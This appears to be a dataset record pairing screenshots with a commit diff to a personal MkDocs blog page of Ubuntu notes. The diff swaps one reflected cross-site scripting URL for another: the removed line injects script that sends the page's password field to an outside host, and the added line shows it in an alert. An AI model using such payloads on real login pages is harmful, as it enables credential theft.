

Before and after one commit to Windforce17/blog, an MkDocs documentation site: the page built from docs/coding/linux/ubuntu16.md, in a window 1280 px wide and 900 px high, scrolled down 1326 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; after the commit the page ends 2200 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
update url

```diff
--- a/docs/coding/linux/ubuntu16.md
+++ b/docs/coding/linux/ubuntu16.md
@@ -94,4 +94,4 @@
 https://github.com/facebook/fbctf/wiki/Installation-Guide,-Production
 
 
-http://192.168.168.42/?LanmanErrorCode=%3Cscript%3EsetTimeout(function(){window.location.href="http://zizhu.cug.edu.cn/"+document.getElementById(%22password%22).value;},1000);%3C/
+http://192.168.168.42/?LanmanErrorCode=%3Cscript%3EsetTimeout(function(){alert(document.getElementById(%22password%22).value);},1000);%3C/script%3E
```
